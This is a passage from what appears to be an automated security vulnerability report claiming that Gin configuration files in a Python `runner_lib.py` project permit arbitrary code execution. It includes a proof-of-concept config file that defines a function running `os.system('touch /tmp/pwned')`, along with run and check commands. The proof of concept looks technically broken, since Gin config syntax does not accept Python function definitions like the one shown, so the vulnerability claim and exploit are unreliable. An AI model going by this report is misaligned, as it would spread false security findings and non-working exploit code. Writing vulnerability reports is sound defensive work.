     2. `runner_lib.py`: The `Runner` class uses Gin configurable classes for environments, agents, and metrics. This design relies on Gin's configuration and dependency injection mechanism, which includes executing Python code defined in Gin configuration files. The `@gin.configurable` decorator is used throughout the codebase, enabling Gin to inject and configure objects based on the loaded configuration files.
    ```python
    # File: /code/runner_lib.py
    import gin
    import attr
    ...
    @gin.configurable
    @attr.s
    class Runner(object):
      ...
    ```
    3. Gin's design allows arbitrary Python code execution through bindings in configuration files. For example, a Gin configuration file can define bindings like `Runner.env_class = @os.system` and then trigger code execution by setting parameters or calling functions defined in the configuration.
    ```mermaid
    graph LR
    A[runner.py] --> B(gin.parse_config_file);
    B --> C[Malicious Config File];
    C --> D(Arbitrary Code Execution);
    ```
* **Security Test Case:**
    1. Create a malicious Gin configuration file named `malicious_config.gin` with the following content:
    ```gin
    import os
    import gin

    @gin.configurable
    def malicious_function():
        os.system('touch /tmp/pwned') # Example malicious command
        return 1

    Runner.env_class = @test_util.DummyEnv
    Runner.agent_class = @test_util.DummyAgent
    Runner.metric_classes = {'num_steps': @test_util.DummyMetric}
    Runner.num_steps = 10
    Runner.seed = 4321
    Runner.report_fn = @malicious_function
    ```
    2. Run the runner script with the malicious configuration file:
    ```bash
    python -m runner --gin_config_path=malicious_config.gin --output_path=/tmp/output.json
    ```
    3. Check if the file `/tmp/pwned` is created. If the file exists, it indicates that arbitrary code execution was successful, confirming the vulnerability.
    ```bash
    ls /tmp/pwned
    ```
    If the command lists `/tmp/pwned`, the vulnerability is confirmed.
